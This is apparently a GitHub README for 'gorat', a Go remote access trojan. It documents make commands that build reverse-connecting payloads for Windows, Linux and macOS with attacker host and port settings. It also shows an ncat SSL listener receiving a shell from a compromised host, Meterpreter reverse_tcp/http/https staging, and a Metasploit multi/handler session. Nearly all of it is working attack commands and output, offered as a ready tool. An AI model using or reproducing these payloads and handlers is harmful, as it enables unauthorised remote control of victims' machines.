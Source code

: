 # gorat
A simple rat made in go with adv features

[![forthebadge](https://forthebadge.com/images/badges/made-with-go.svg)](https://forthebadge.com)

# supported os
```
Windows
Linux
Mac OS
FreeBSD
```

# Usage

- create a valid certificate

```
$ make depends
openssl req -subj '/CN=yourcn.com/O=YourOrg/C=FR' -new -newkey rsa:4096 -days 3650 -nodes -x509 -keyout server.key -out server.pem
Generating a 4096 bit RSA private key
....................................................................................++
.....++
writing new private key to 'server.key'
-----
cat server.key >> server.pem
```

# Payload available
```bash
# Predifined 32 bit target
$ make windows32 LHOST=192.168.0.12 LPORT=1234
# Predifined 64 bit target
$ make windows64 LHOST=192.168.0.12 LPORT=1234

# Predifined 32 bit target
$ make linux32 LHOST=192.168.0.12 LPORT=1234
# Predifined 64 bit target
$ make linux64 LHOST=192.168.0.12 LPORT=1234
# mac os host
$ make macos LHOST=192.168.0.12 LPORT=1234
```

# example output
```
$ ncat --ssl --ssl-cert server.pem --ssl-key server.key -lvp 1234
Ncat: Version 7.60 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 172.16.122.105.
Ncat: Connection from 172.16.122.105:47814.
[gorat]> whoami
windows64
```

# Meterpreter staging
```
WARNING: this currently only work for the Windows platform.
```

- payload supports for meterpter stagging
```bash
windows/meterpreter/reverse_tcp
windows/x64/meterpreter/reverse_tcp
windows/meterpreter/reverse_http
windows/x64/meterpreter/reverse_http
windows/meterpreter/reverse_https
windows/x64/meterpreter/reverse_https
```

# example output
```bash
[14:12:45][172.16.122.105][Sessions: 0][Jobs: 0] > use exploit/multi/handler
[14:12:57][172.16.122.105][Sessions: 0][Jobs: 0] exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
[14:13:12][172.16.122.105][Sessions: 0][Jobs: 0] exploit(multi/handler) > set lhost 192.168.0.1
lhost => 192.168.0.1
[14:13:15][172.16.122.105][Sessions: 0][Jobs: 0] exploit(multi/handler) > set lport 8443
lport => 8443
[14:13:17][172.16.122.105][Sessions: 0][Jobs: 0] exploit(multi/handler) > set HandlerSSLCert ./server.pem
HandlerSSLCert => ./server.pem
[14:13:26][172.16.122.105][Sessions: 0][Jobs: 0] exploit(multi/handler) > exploit -j
[*] Exploit running as background job 0.

[*] [2018.01.29-14:13:29] Started HTTPS reverse handler on https://192.168.0.1:8443
[14:13:29][172.16.122.105][Sessions: 0][Jobs: 1] exploit(multi/handler) >
```

